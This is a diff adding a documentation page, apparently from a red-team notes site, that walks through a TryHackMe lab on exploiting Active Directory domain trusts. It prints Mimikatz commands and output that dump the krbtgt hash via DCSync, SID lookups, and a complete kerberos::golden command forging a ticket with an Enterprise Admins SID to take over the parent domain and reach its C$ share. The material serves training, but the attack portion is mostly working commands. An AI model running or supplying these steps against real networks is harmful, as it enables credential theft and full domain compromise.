

Before and after one commit to tymyrddin/red-ad, a Sphinx documentation site: the page built from source/docs/exploit/trusts.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/exploit/trusts.md
+++ b/source/docs/exploit/trusts.md
@@ -1 +1,114 @@
 # Exploiting domain trusts
+
+A forest, in Active Directory terms, consists of domain trees. Trusts define how domains in a forest can talk to
+one another. The main types of trusts are:
+
+* Directional: Trust flows from one domain to another trusted domain
+* Transitive: Trust flows between multiple trusted domains
+
+## KRBTGT and Golden tickets
+
+If an attacker compromises a domain controller and achieves full `SYSTEM` rights, it is possible to extract the
+hash of the `krbtgt` account. This would allow the attacker to create `TGS` tickets for any resources they choose.
+
+In order to create golden tickets, the following must be known:
+
+* FQDN of the domain
+* SID of the domain
+* Username to impersonate
+* KRBTGT hash
+
+The first three are usually easy to recover. The last one requires a domain compromise since the `KRBTGT` password
+hash is only stored on domain controllers.
+
+### Dumping the KRBTGT hash
+
+Use the RDP session on `THMSERVER2` to recover the KRBTGT password hash using Mimikatz with DC Sync:
+
+```text
+C:\Tools>mimikatz_trunk\x64\mimikatz.exe
+
+  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
+ .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
+ ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
+ ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
+ '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
+  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
+
+mimikatz # privilege::debug
+Privilege '20' OK
+
+mimikatz # lsadump::dcsync /user:za\krbtgt
+[DC] 'za.tryhackme.loc' will be the domain
+[DC] 'THMDC.za.tryhackme.loc' will be the DC server
+[DC] 'za\krbtgt' will be the user account
+[rpc] Service  : ldap
+[rpc] AuthnSvc : GSS_NEGOTIATE (9)
+
+Object RDN           : krbtgt
+
+** SAM ACCOUNT **
+
+SAM Username         : krbtgt
+Account Type         : 30000000 ( USER_OBJECT )
+User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
+Account expiration   :
+Password last change : 4/25/2022 7:18:22 PM
+Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
+Object Relative ID   : 502
+
+Credentials:
+  Hash NTLM: removed
+    ntlm- 0: removed
+    lm  - 0: removed
+...
+```
+
+### Getting the SIDs
+
+Recover two SIDs:
+
+* The SID of the child domain controller (THMDC), to be impersonated in the forged TGT
+* The SID of the Enterprise Admins in the parent domain, to be added as an extra SID to the forged TGT
+
+Use the AD-RSAT Powershell cmdlets to recover the SID of the child domain controller:
+
+```text
+PS C:\> Get-ADComputer -Identity "THMDC"
+
+DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
+DNSHostName       : THMDC.za.tryhackme.loc
+Enabled           : True
+Name              : THMDC
+ObjectClass       : computer
+ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
+SamAccountName    : THMDC$
+SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
+UserPrincipalName :
+```
+
+Recover the SID of the Enterprise Admins group by querying the parent domain controller:
+
+```text
+PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
+
+DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
+GroupCategory     : Security
+GroupScope        : Universal
+Name              : Enterprise Admins
+ObjectClass       : group
+ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
+SamAccountName    : Enterprise Admins
+SID               : S-1-5-21-3330634377-removed-519
+```
+
+## Exploiting domain trusts
+
+Use Mimikatz to generate a golden ticket.
+
+```text
+mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
+```
+
+Try browsing the remote file system of `\\thmrootdc.tryhackme.loc\C$` (the UNC path to the `C$` share). The flag is
+on `THMROOTDC` in the Administrator's Desktop folder (flag6.txt).
````
